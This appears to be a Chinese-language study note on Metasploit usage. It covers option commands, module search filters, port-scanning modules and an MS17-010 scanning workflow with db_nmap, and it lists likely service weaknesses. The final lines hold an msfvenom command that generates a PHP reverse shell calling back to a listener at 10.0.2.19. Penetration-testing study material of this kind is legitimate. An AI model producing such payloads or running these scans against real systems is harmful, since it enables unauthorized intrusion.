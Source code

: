 ```yaml
---
icon: pen-to-square
date: 2025-03-31
tags: 
title: Metasploit
category:
  - 项目
---
```

## unset 
### **基本用法**
```bash
unset <选项名称>
```

或取消所有选项：
```bash
unset all
```
## setg

### ** 基本语法**
```bash
setg <选项名称> <值>
```
全局设置，如果想撤销全局设置可以用unsetg
- setg会被模块内的set覆盖

## search
### **📌 基本语法**


```bash
search [options] <keyword1> [keyword2] ...
```

**常用选项**：

| 选项              | 说明                                                                   | 示例                        |
| --------------- | -------------------------------------------------------------------- | ------------------------- |
| `-h`            | 查看帮助                                                                 | `search -h`               |
| `type:<类型>`     | 按模块类型过滤（`exploit`, `auxiliary`, `post`, `payload`, `encoder`, `nop`） | `search type:exploit`     |
| `name:<名称>`     | 按模块名称搜索                                                              | `search name:eternalblue` |
| `cve:<CVE编号>`   | 按CVE编号搜索                                                             | `search cve:2017-0144`    |
| `platform:<平台>` | 按目标平台搜索（`windows`, `linux`, `android`）                               | `search platform:windows` |
| `author:<作者>`   | 按作者搜索                                                                | `search author:hdm`       |

Metasploit拥有许多扫描端口的模块
```bash
msf6 > search portscan Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 auxiliary/scanner/http/wordpress_pingback_access normal No Wordpress Pingback Locator 1 auxiliary/scanner/natpmp/natpmp_portscan normal No NAT-PMP External Port Scanner 2 auxiliary/scanner/portscan/ack normal No TCP ACK Firewall Scanner 3 auxiliary/scanner/portscan/ftpbounce normal No FTP Bounce Port Scanner 4 auxiliary/scanner/portscan/syn normal No TCP SYN Port Scanner 5 auxiliary/scanner/portscan/tcp normal No TCP Port Scanner 6 auxiliary/scanner/portscan/xmas normal No TCP "XMas" Port Scanner 7 auxiliary/scanner/sap/sap_router_portscanner normal No SAPRouter Port Scanner
```
同样也可以用show option进行设置
- **并发：** 要同时扫描的目标数。
- **port：** 要扫描的端口范围。请注意，这里的 1-1000 与使用 Nmap 和 default 配置。Nmap 将扫描 1000 个最常用的端口，而 Metasploit 将从 1 个开始扫描端口号 设置为 10000。
- **主机：**要扫描的目标或目标网络。
- **线程：**将同时使用的线程数。线程越多，扫描速度就越快。

hosts指令用于查找之前设定的目标ip

可以使用nmap数据库与其他模块进行交互
1. **先使用 `db_nmap` 扫描网络**，获取开放的 445 端口的主机信息。
    
2. **再使用 `auxiliary/scanner/smb/smb_ms17_010` 模块**，针对开放 445 端口的主机进行 MS17-010 漏洞扫描。
具体操作
先用db_nmap扫描端口并输入到数据库、
然后hosts -R从数据库中设置目标host

services查看数nmap据库中的服务信息

漏洞思路
- HTTP：可能托管一个 Web 应用程序，您可以在其中发现 SQL 注入或远程代码执行 （RCE） 等漏洞。
- FTP：可以允许匿名登录并提供对有趣文件的访问。
- SMB：可能容易受到 MS17–010 等 SMB 漏洞的攻击
- SSH：可能具有默认或易于猜测的凭据
- RDP：如果使用了弱凭据，则可能容易受到 Bluekeep 的攻击或允许桌面访问。


```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
这是一个生成php反弹shell的命令